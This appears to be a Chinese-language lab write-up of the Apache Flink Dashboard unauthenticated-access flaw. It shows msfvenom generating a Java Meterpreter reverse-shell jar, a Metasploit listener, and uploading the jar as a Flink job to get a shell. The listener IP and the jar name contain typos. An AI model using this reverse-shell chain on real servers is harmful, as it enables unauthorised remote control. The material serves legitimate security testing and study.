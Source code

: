 # Apache Flink未授权访问漏洞

## 漏洞描述

Apache Flink Dashboard默认没有用户权限认证，攻击者可以通过未授权的Flink Dashboard控制台直接上传木马jar包，可远程执行任意系统命令获取服务器权限。

## 环境搭建

测试版本：flink-1.15.1

修改`flink-1.15.1/confflink-conf.yaml`

![image-20220726112749940](../../.gitbook/assets/image-20220726112749940.png)

启动flink

```
start-cluster.sh
```



## 漏洞利用

访问web页面。

![image-20220726112140644](../../.gitbook/assets/image-20220726112140644.png)

利用msfovenom生成rce.jar

```
┌──(root💀kali)-[/tmp]
└─# msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.32.130 LPORT=4444 -f jar > rce.jar
Payload size: 5310 bytes
Final size of jar file: 5310 bytes
```

配置msf监听

```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 1291.68.32.130
lhost => 1291.68.32.130
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run

```

在Submit New Job处上传`rec.jar`文件，点击submit。

![image-20220726112442088](../../.gitbook/assets/image-20220726112442088.png)

成功getshell。

![image-20230129203132779](../../.gitbook/assets/image-20230129203132779.png)